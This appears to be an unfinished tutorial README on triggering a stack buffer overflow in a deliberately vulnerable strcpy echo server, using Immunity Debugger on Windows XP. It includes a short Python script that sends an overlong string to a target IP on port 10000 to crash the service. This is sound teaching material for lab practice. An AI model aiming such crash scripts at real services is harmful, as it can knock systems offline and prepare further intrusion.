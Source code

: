 # sampling a buffer overflow #

* crashing the program
* code in python
* analyze crash

using immunity debugger 1.85 on windows xp

the input we send to the program is stored in a buffer. strcopy copies a string from a source to a destination. the problem is that there is no cap on the lenght of the string in strcpy, which means if the size of the input buffer which is going to hold the string is small, and the user sends a very large string, this would end up overflowing that buffer which leads to a corruption in that stack which overrides things like the return address and ends up crashing the program.



##  ## server / client connection ##

basic echo server using strcpy, running on port 10000, connecting using nc and testing functionality. 

![1](images/1.PNG)



## ## attach server process to immunity debugger ##

![2](images/2.PNG)

basic immunity debugger terminal explanation
* top left - 
* top right - 
* bottom left - 
* bottom right - 

![3](images/3.PNG)



## ## python exploit ##

see file strcpy.py

```python
#!/usr/bin/python

import socket
import sys

# ipv4 address family and tcp socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connecting as client. user input ip and port 10000
sock.connect((sys.argv[1], 10000))

# sending 20 "A's"
buffer = "A" * 20

# sending buffer
sock.send(buffer)


print sock.recv(1024)

sock.close()
```



















